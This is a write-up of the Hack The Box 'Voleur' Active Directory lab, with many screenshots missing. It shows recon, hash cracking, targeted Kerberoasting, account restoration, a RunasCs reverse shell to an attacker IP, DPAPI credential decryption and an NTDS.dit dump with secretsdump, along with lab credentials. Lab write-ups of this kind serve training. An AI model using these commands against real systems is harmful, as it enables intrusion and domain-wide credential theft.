---
title: 'HTB-Voleur'
published: 2025-09-18
draft: false
toc: true
---
**Start 16:13 06-07-2025**

---
```
Scope:
10.10.11.76

Creds:
ryan.naylor / HollowOct31Nyt
```
# Recon
## Nmap

```bash
sudo nmap -sC -sV -sT -vvvv -p- -T5 --min-rate=5000 -Pn voleur.htb 

PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2025-07-06 22:15:11Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: voleur.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack
2222/tcp  open  ssh           syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: voleur.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
49664/tcp open  msrpc         syn-ack Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack Microsoft Windows RPC
51685/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
51686/tcp open  msrpc         syn-ack Microsoft Windows RPC
51688/tcp open  msrpc         syn-ack Microsoft Windows RPC
51716/tcp open  msrpc         syn-ack Microsoft Windows RPC
62733/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: DC; OSs: Windows, Linux; CPE: cpe:/o:microsoft:windows, cpe:/o:linux:linux_kernel

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 48495/tcp): CLEAN (Timeout)
|   Check 2 (port 28661/tcp): CLEAN (Timeout)
|   Check 3 (port 60782/udp): CLEAN (Timeout)
|   Check 4 (port 35476/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 7h59m57s
| smb2-time: 
|   date: 2025-07-06T22:16:03
|_  start_date: N/A
```

I tried logging into ssh `2222` but got denied:



## Pass The Key - TGT

I started off changing `/etc/krb5.conf`









### BloodHound

I could now boot up `bloodhound`:





While the files were ingesting I commenced my recon.



Quite a few _svc_ accounts which I made be able to take advantage of.



I went ahead and looked up which users had remote access:



Nevertheless I had to move on and check out what else I could find.

## 445/TCP - SMB





I find that I can read a bunch of shares! I'll check out the non-default IT share.



Right away I find an excel file that appears to be useful!

>[!note]
>I tried out `smbclient` but it wouldn't connect, instead I opted for `impacket-smbclient`:









### John

Now it was time to crack the office hash:



I could now enter it in the prompt:



### Excel file - Finding Creds



Out of all the creds the *svc_ldap* ones worked as well:



```creds
svc_ldap
M1XyC9pW7qT5Vn
```

Now that I know that that account has valid creds I return to `bloodhound`.



>[!note]
>Not only can we go ahead and `WriteSPN` on *svc_winrm*, but we can also `GenericWrite` via **RESTORE_USERS** to *lacey.miller*. This means we can reinstate *todd.wolfe*'s account, and make him part of the domain admin group!

## WriteSPN
### Kerberoasting



I need to slightly modify the command for the request to work.

```bash
KRB5CCNAME=svc_ldap.ccache ./targetedKerberoast.py --dc-host DC.voleur.htb -d voleur.htb  --dc-ip 10.10.11.76 --request-user 'svc_winrm' -k
```



### John

I was then able to easily crack it:



```
svc_winrm
AFireInsidedeOzarctica980219afi
```

# Foothold
## Shell as svc_winrm

Using the following sequence of commands I was able to get easy access:



### user.txt



## Lateral Movement

>[!note]
>In order to move laterally I have to download over `RunasCs.exe`, then I can go ahead and get an elevated shell as *svc_ldap* on the system, which in turn will allow me to restore the *todd.wolfe* account.






## Restore Todd.Wolfe account

I can now use the following commands to restore the account:

```powershell
Get-ADObject -Filter 'isDeleted -eq $true' -IncludeDeletedObjects
```



```powershell
Restore-ADObject -Identity '1c6b1deb-c372-4cbb-87b1-15031de169db'
```



### Shell as Todd.Wolfe

Now that the account has been restored I can yet again move laterally.

```bash
.\run.exe todd.wolfe NightT1meP1dg3on14  powershell -r 10.10.14.17:444
```





Slight problem however concerning my enum, I'd have to use `bloodhound` all over again since the account did not exist before:


## DPAPI

Knowing that he's part of the second-line group however I went to the following directory:




I then transferred the following over:

```powershell
C:\IT\Second-Line Support\Archived Users\todd.wolfe\AppData\roaming\Microsoft\Credentials\772275FAD58525253490A9B0039791D3
```



As well as:

```powershell
C:\IT\Second-Line Support\Archived Users\todd.wolfe\AppData\roaming\Microsoft\Protect\S-1-5-21-3927696377-1337352550-2781715495-1110\08949382-134f-4c63-b93c-ce52efc0aa88
```



### impacket-dpapi

I can first crack the key:

```bash
impacket-dpapi masterkey -file 08949382-134f-4c63-b93c-ce52efc0aa88 -password 'NightT1meP1dg3on14' -sid S-1-5-21-3927696377-1337352550-2781715495-1110
```



I can now crack the credentials:

```bash
impacket-dpapi credential -f 772275FAD58525253490A9B0039791D3 -key 0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83
```



```bash
jeremy.combs
qT3V9pLXyN7W4m
```



I can now easily log in as *jeremy*:



# Privilege Escalation
## Enumeration

I started in the **Third-Line Support** folder:



I then download over the `id_rsa` and check who it belongs to:

```bash
ssh-keygen -lf id_rsa
```



I could easily get access:



Fortunately enough:



It was within the `/mnt` directory where I was able to find all the sweet stuff:



>[!note] 
>I could essentially copy over `NTDS.dit` now and get the Admin password!
>

To make my life easier I used `sudo su` and found the juicy stuff:



### NTDS.dit

I copied it over using the following command:

```bash
scp -i id_rsa -P 2222 -r "svc_backup@dc.voleur.htb:/mnt/c/IT/Third-Line Support/Backups" .
```



And in turn used `impacket-secretsdump` to dump the hashes:

```bash
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL -hashes lmhash:nthash
```



## Shell as Administrator

I can now finally get the *Administrator* ticket and log in:



### root.txt





---

**Finished 16:45 10-07-2025**

[^Links]: [[Hack The Box]]

#pass-the-key #pass-the-ticket #BloodHound #ActiveDirectory #kerberoasting #dpapi 
